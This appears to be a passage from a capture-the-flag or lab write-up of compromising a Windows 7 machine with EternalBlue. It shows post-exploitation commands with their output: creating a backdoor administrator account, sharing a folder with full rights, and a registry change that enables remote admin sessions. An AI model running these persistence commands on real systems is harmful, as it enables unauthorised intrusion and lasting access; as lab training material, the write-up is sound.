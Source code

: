 We chose the eternalblue exploit for **Windows 7**, it is executed by obtaining a shell like System.

![shell.png](/assets/imgs/blue/shell.png)


Creating user and giving administrator permissions on the compromised machine.
These steps are optional, I do it to obtain a remote session via RDP to the compromised machine.

```
c:\Windows\System32> net user user123 user123 /add
The command completed successfully.

c:\Windows\System32> net localgroup administrators user123 /add
The command completed successfully.

c:\Windows\System32> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members
-------------------------------------------------------------------------------
Administrator
Jon
user123
The command completed successfully.

c:\Windows\System32> net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL
attacker_folder was shared successfully.

c:\Windows\System32> cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
The operation completed successfully.
```
